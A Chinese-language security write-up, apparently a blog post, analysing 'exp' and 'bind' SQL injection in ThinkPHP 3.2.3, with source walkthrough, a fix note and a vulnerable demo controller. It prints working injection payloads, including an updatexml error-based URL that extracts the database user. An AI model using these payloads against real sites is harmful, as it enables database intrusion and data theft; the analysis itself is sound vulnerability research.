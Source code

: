 在exp的那个elseif语句中把`where`条件直接用点拼接，造成SQL注入。让我们来分析下怎么进入到这个语句块，首先在`parseWhere()`中是肯定会进入`parseWhereItem()`方法中，这是无可厚非的。再来看
![image](https://y4er.com/img/uploads/20191127220531.jpg)
要满足$val是数组，并且索引为0的值为字符串'exp'，那么就可以拼接sql语句了。所以我们传入`username[0]=exp&username[1]==1 and aaa`
细心的同学会发现bind也是拼接的，下文分析。

然后我们来说下为什么**不用**`I()`函数来获取参数，而使用原生超全局数组。在`I()`函数中，最后回调了一个`think_filter()`函数
```php
is_array($data) && array_walk_recursive($data, 'think_filter');
```
```php
function think_filter(&$value)
{
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if (preg_match('/^(NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
        $value .= ' ';
    }
}
```
可以看到过滤了EXP字符串，会在后面拼接上一个空格，那这样后面`parseWhereItem()`中就不满足条件抛出异常导致无法注入。
## 修复
使用`I()`函数代替超全局数组获取变量

# thinkphp 3.2.3 bind注入
上文中写到了exp注入，这篇讲bind注入
## payload
```
http://php.local/thinkphp3.2.3/index.php?id[0]=bind&id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&password=1
```
这里需要注意`id[1]=0`原理在下面说
## 搭建环境
```php
public function index()
{
    $User = M("Users");
    $user['id'] = I('id');
    $data['password'] = I('password');
    $valu = $User->where($user)->save($data);
    var_dump($valu);
}
```
输入payload，为了讲解上文中`id[1]=0`的原理，我们输入payload
```
http://php.local/thinkphp3.2.3/index.php?id[0]=bind&id[1]=aa&password=1
```
报错
![image](https://y4er.com/img/uploads/20191127226427.jpg)
